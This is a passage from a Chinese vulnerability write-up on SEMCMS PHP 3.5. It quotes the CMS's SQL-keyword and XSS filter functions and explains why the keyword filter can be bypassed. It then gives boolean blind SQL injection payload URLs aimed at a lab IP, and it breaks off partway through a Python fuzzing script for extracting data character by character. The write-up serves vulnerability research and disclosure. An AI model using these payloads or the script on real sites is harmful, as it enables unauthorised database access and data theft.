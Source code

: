 ```

if(inject_check_sql($str)){



exit('Sorry,You do this is wrong! (.-.)');　　//如果出现关键字则提示

}



return $str;

}
```

```
function test_input($data){ 　　　　　　　　　　　//防止XSS
       $data = str_replace("<script","", $data);
       $data = str_replace("</script>","", $data);
       $data = str_replace("%","percent", $data);
       $data = trim($data);
       $data = stripslashes($data);
       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
return $data;
}
```

可以看到函数 verify_str() 调用 inject_check_sql() 用来过滤危险字符，函数 test_input 用来过滤 xss。

其中可以明显地看到函数 inject_check_sql() 采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过。

#### **漏洞验证**

payload：

```
http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0
```

正常显示  

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6ret8z5U75wBVYfrXlyT0tNU3ibB4Z8OLsXEicE4RRK9Q3noLC1DCCtohgQ/640?wx_fmt=png)  
payload：

```
http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0
```

显示不正常  

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6regsHycuAOvtfGpwhJI3yUDmsTSdjVZaBicbCQD8icx0J592fTDp4CaX9g/640?wx_fmt=png)

参考网上已有的 fuzz 盲注脚本改了下，代码如下：

```
#用python3版本

import requests

url ="http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"

print("Testing url: "+ url)

#十进制数33-126间的ascii hex值

payload =["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",

"0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
```